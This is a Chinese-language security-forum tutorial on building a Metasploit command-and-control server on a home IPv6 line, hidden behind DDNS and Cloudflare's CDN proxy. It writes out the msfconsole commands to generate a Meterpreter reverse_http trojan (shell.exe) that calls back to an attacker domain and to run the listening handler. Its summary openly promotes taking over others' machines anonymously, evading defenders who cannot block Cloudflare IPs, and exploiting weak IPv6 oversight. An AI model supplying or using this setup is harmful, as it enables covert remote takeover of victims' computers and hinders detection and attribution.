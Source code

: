 

# 使用家用 IPv6 设备来上线接管电脑 - 先知社区

使用家用 IPv6 设备来上线接管电脑

- - -

# 前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# 方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[![](assets/1699407448-a34266601607ccb21c0bb8f293eeba3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173014-16eb9a9c-7c87-1.png)

# 准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## 检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[![](assets/1699407448-4edccf3093a326c218d97bfa476f8313.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173023-1c7e2e8e-7c87-1.png)

## 安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```plain
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[![](assets/1699407448-65ead7fdace32a9ece07b5862afec859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173114-3ad27638-7c87-1.png)

## 创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[![](assets/1699407448-fa71b01bf78f7e1a41405f3b102e7bc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173102-338d6176-7c87-1.png)

## 安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```plain
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[![](assets/1699407448-a85e082edf505f5fbf95aba3589cecd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173054-2ed4e41a-7c87-1.png)

最后配置一下要 IPv6 对应解析的域名即可：

[![](assets/1699407448-6b333f100e47526db59b244b8f2a84f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173513-c96716b0-7c87-1.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[![](assets/1699407448-5f47a0eb10530a4771a33450f1779b9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173125-418fcf3e-7c87-1.png)

## 配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[![](assets/1699407448-bb3d5c974d2a246779a1b0a00b1039ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173141-4b1818b8-7c87-1.png)

然后手动关闭一下 CF 的 SSL 加密：

[![](assets/1699407448-b54ffb86e4707f002fd8f88443eea5d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173147-4eb264a6-7c87-1.png)

## 验证连通性

首先在服务器上借助 Python3 监听应该 IPv6 的 80 端口：

```plain
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[![](assets/1699407448-20654615f1564b90661508cdfc868cf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173203-583ebdf8-7c87-1.png)

# 操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## 生成 Payload

我们使用 meterpreter\_reverse\_http的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```plain
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[![](assets/1699407448-42755ac38800b21692178c6d62433b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173215-5ef8cc60-7c87-1.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```plain
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## 监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```plain
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[![](assets/1699407448-4748476a9d694288e7247b7c33939b9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173240-6e11a280-7c87-1.png)

## 上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[![](assets/1699407448-cc526aefba97ae4f0fd02db0ea3b3a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173231-68e6a030-7c87-1.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[![](assets/1699407448-f3fcdc9d786e94c34c6d051f29f74398.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173250-743ab7b4-7c87-1.png)

# 方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的
